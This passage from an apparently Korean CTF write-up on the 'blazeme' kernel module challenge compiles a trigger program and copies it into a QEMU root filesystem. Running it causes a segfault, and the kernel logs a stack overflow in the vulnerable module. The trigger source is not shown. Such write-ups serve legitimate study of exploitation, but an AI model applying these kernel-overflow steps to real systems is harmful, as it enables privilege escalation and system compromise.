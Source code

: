 ```c
	return 0;
}
```

compile


```sh
gcc -static -O2 -Wall ex.c -o ex
```

qemu 내에는 gcc가 설치되어 있지 않아서 filesystem을 mount한 후 넣어줬다.


```sh
root@pwn:~/images# ls
blazeme.c  bzImage  ex  ex.c  rootfs.ext2  run.sh  solve.c
root@pwn:~/images# mkdir mnt
root@pwn:~/images# mount -t ext2 rootfs.ext2 ./mnt
root@pwn:~/images# ls ./mnt
bin  dev  etc  lib  lib64  linuxrc  lost+found  media  mnt  opt  proc  root  run  sbin  sys  tmp  usr  var
root@pwn:~/images# cp ./ex ./mnt/
root@pwn:~/images# umount ./mnt
root@pwn:~/images#
```

qemu를 실행시켜 트리거링 코드를 실행시킨다.

```sh
root@pwn:~/images# ./run.sh
WARNING: Image format was not specified for 'rootfs.ext2' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
qemu-system-x86_64: warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]

Welcome to Buildroot
buildroot login: blazeme
Password:
login: can't change directory to '/home/blazeme'
$ ls
bin         lib         media       root        tmp
dev         lib64       mnt         run         usr
etc         linuxrc     opt         sbin        var
ex          lost+found  proc        sys
$ ./ex
Segmentation fault
$
```

취약점이 트리거링되고, 세그폴트가 떴다.
`dmesg` 명령을 통해 커널 로그를 확인해보자!

```sh
$ dmesg
...
...
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
...
...
BUG: stack guard page was hit at 00000000a8a5c2a5 (stack is 00000000dad4aef7..000000008ca3b93b)
kernel stack overflow (page fault): 0000 [#1] SMP NOPTI
Modules linked in: blazeme(O)
CPU: 0 PID: 98 Comm: ex Tainted: G           O     4.15.0 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.10.2-1ubuntu1 04/01/2014
```

[^fops]: <https://chardoc.tistory.com/8>
[^fops_exploit]: <https://procdiaru.tistory.com/82>
[^slab_allocator]: <http://jake.dothome.co.kr/slub/>
[^copy_to_user]: <https://blog.naver.com/PostView.nhn?blogId=ryutuna&logNo=100184443085&proxyReferer=https%3A%2F%2Fwww.google.com%2F>